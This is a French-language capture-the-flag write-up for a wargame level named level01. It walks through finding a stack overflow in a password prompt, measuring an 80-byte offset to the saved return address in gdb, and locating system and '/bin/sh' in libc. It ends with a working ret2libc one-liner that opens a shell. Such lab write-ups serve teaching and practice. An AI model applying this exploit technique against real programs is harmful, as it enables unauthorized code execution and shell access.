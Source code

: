 # LEVEL 01


Le binaire level01 est composé de 3 fonction et lit 2 fois sur l'entrée standard via **fgets**:

<pre>
verify_user_name
verify_user_pass
main
</pre>

Aucune de c'est fonction n'appelle la fonction system ou ne créé de shell, mais la fonction **main** appelle succéssivement la fonction **verify_user_name** et **verify_user_pass**.

Chaque fonction **verify_** compare les strings récupérer avec:

<pre>
dat_wil => verify_user_name
admin	=> verify_user_pass
</pre>

le **buffer static** qui stock le **pass** est nettement inférieur a la taille de la string récupérer dans le second **fgets()**, On peux Overflow la stack grace au ce buffer.


On cherche si l'on peux écraser **EIP** et si oui à partir de quel octets et combien d'octect en plus nous pouvons écrire:
<pre>
b *main + 169	// Apres le second fgets
run
dat_will		// 1er string
AAAAAAAA		// 2eme string

i f

Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c

i r

eax            0xffffd6cc       -10548

addr de saved EIP => 0xffffd71c
addr du buffer    => 0xffffd6cc

0xffffd71c - 0xffffd6cc => 0x50 => 80

offset buffer/EIP 80 oct
</pre>

Nous écrasons **EIP** à partir de l'octet 80 et notre buffer fait un taille de 100octet.

Nous pouvons éffectuer un **RET2LIBC**:

<pre>
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()
(gdb) info proc map
process 1815
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        						...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
								...
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000,0xf7e2c000,"/bin/sh"
Pattern not found.
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.

p system
$1 = {text variable, no debug info} 0xf7e6aed0 system

system 		=> 0xf7e6aed0
"/bin/sh"	=> 0xf7f897ec
</pre>

Nous pouvons donc formater notre exploit de la façon suivante:
<pre>
./level01
"dat_will"
"A*80 + &system + DUMM + &(/bin/sh)"
</pre>

# EXPLOIT
<pre>
SHELL=/bin/sh

(python -c "print 'dat_wil\n' + 'A'*80 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'";cat) | ./level01
</pre>